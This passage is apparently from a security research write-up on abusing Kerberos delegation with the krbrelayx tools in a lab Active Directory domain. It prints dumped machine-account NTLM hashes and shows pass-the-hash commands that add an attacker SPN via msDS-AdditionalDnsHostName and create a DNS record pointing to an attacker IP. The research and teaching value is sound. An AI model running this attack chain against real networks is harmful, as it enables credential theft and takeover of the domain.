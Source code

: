 ```
ICORP\ICORP-W10$:des-cbc-md5:91abd073c7a8e534
ICORP\ICORP-W10$:aad3b435b51404eeaad3b435b51404ee:c1c635aa12ae60b7fe39e28456a7bac6:::
```

Now we add the SPN. We use the NTLM hash that we just dumped to authenticate as the machine account, which can modify it's own SPN, but only via the `msDS-AdditionalDnsHostName` property as discussed earlier. We will use the `addspn.py` utility to add the SPN `HOST/attacker.internal.corp` to the computer account (which is used for SMB).
```
user@localhost:~/krbrelayx$ python addspn.py -u icorp\\icorp-w10\$ -p aad3b435b51404eeaad3b435b51404ee:c1c635aa12ae60b7fe39e28456a7bac6 -s HOST/attacker.internal.corp -q icorp-dc.internal.corp
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
DN: CN=ICORP-W10,CN=Computers,DC=internal,DC=corp - STATUS: Read - READ TIME: 2019-01-09T21:55:23.923810
    dNSHostName: ICORP-W10.internal.corp
    sAMAccountName: ICORP-W10$
    servicePrincipalName: RestrictedKrbHost/ICORP-W10
                          HOST/ICORP-W10
                          RestrictedKrbHost/ICORP-W10.internal.corp
                          HOST/ICORP-W10.internal.corp

user@localhost:~/krbrelayx$ python addspn.py -u icorp\\icorp-w10\$ -p aad3b435b51404eeaad3b435b51404ee:c1c635aa12ae60b7fe39e28456a7bac6 -s HOST/attacker.internal.corp icorp-dc.internal.corp
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[!] Could not modify object, the server reports a constrained violation
[!] You either supplied a malformed SPN, or you do not have access rights to add this SPN (Validated write only allows adding SPNs matching the hostname)
[!] To add any SPN in the current domain, use --additional to add the SPN via the msDS-AdditionalDnsHostName attribute
user@localhost:~/krbrelayx$ python addspn.py -u icorp\\icorp-w10\$ -p aad3b435b51404eeaad3b435b51404ee:c1c635aa12ae60b7fe39e28456a7bac6 -s HOST/attacker.internal.corp icorp-dc.internal.corp --additional
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

The SPN for `attacker.internal.corp` now exists on the victim account, but the DNS entry for it does not yet exist.	We use the `dnstool.py` utility to add the record, pointing to the attacker IP:

```
user@localhost:~/krbrelayx$ python dnstool.py -u icorp\\icorp-w10\$ -p aad3b435b51404eeaad3b435b51404ee:c1c635aa12ae60b7fe39e28456a7bac6 -r attacker.internal.corp -d 192.168.111.87 --action add icorp-dc.internal.corp
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
user@localhost:~/krbrelayx$ nslookup attacker.internal.corp 192.168.111.2
Server:		192.168.111.2
Address:	192.168.111.2#53

Name:	attacker.internal.corp
Address: 192.168.111.87
```